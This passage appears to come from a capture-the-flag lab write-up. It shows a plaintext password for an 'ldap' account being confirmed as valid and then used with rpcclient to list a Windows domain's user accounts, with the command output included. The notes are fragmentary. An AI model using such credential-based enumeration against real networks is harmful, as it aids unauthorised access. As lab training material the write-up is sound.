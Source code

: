 - so we can if  ldap and `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`are valid credentials and they are

![](assets/Support_assets/Pasted%20image%2020231116143143.png)

### RPC
- so we can enumerate for domain users and domain groups with the valid credentials, not that we  `rpcclient -U "ldap" 10.10.11.174` with the password

![](assets/Support_assets/Pasted%20image%2020231116143711.png)

![](assets/Support_assets/Pasted%20image%2020231116143753.png)

```shell
┌──(kali㉿kali)-[/opt/windapsearch]
└─$ rpcclient -U "ldap" 10.10.11.174
Password for [WORKGROUP\ldap]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ldap] rid:[0x450]
user:[support] rid:[0x451]
user:[smith.rosario] rid:[0x452]
user:[hernandez.stanley] rid:[0x453]
user:[wilson.shelby] rid:[0x454]
```